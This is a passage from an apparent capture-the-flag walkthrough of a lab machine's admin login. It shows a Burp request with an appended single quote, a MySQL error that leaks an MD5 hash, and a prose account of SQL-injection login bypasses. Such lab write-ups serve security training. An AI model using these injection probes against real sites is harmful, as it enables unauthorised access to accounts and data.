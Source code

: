 I tried to enter an email address with a `'` at the end into the page, but the
local validation rules didn’t allow submission. I found a login request in
Burp and kicked it over to Repeater, and added one to the end of the email:

    
    
    POST /login.php HTTP/1.1
    Host: admin-portal.europacorp.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://admin-portal.europacorp.htb/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 65
    Connection: close
    Cookie: PHPSESSID=6o0ld056n5a3v8gkvv57fg6dk5
    Upgrade-Insecure-Requests: 1
    
    email=admin%40europacorp.htb'&password=admin&remember=Remember+Me
    

The response shows a clear SQL injection opportunity:

    
    
    HTTP/1.1 200 OK
    Date: Fri, 22 Jan 2021 01:35:59 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 179
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '21232f297a57a5a743894a0e4a801fc3'' at line 1
    

Not only is that SQLi, but it tells me that the hash being used is MD5, which
I can recognize by the hash length, and verify knowing that the password I
submitted was “admin”:

    
    
    root@kali# echo -n "admin" | md5sum
    21232f297a57a5a743894a0e4a801fc3  -
    

## Shell as www-data

### Access Admin Panel

#### Via SQL Bypass

There are different ways that a PHP site will execute a query to determine if
a user can login. The worst is to run an SQL query for rows where the username
and the password (or password hash) match, and if there are _any_ results,
allow login. Slightly better is to allow login only if there’s exactly one
result. A better way to do it is to query based on the username, and then
check that the returned result has a matching hash (this can still be
bypassed, but it takes more work).
